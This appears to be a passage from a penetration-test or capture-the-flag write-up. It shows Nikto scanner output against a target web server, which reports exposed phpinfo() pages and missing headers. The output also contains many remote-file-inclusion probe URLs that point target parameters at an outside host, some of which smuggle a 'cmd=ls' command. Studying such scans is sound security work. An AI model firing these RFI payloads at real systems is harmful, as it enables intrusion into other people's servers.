 ~~~
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ /: Output from the phpinfo() function was found.
+ /index.php: Output from the phpinfo() function was found.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /./: Output from the phpinfo() function was found.
+ //: Output from the phpinfo() function was found.
+ /%2e/: Output from the phpinfo() function was found.
+ /%2f/: Output from the phpinfo() function was found.
+ ///: Output from the phpinfo() function was found.
+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3233: /index.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.
+ ///////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////: Output from the phpinfo() function was found.
+ OSVDB-5292: /?_CONFIG[files][functions_page]=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /?npage=-1&content_dir=http://cirt.net/rfiinc.txt?%00&cmd=ls: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /?npage=1&content_dir=http://cirt.net/rfiinc.txt?%00&cmd=ls: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/


< --- SNIP --- >

+ OSVDB-5292: /index.php?url=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?w=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?way=http://cirt.net/rfiinc.txt???????????????: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ 7785 requests: 0 error(s) and 135 item(s) reported on remote host
+ End Time:           2022-08-19 11:54:45 (GMT2) (39 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
~~~
In Nikto's results I saw a phpinfo webpage. So of course I want to check it out in the browser.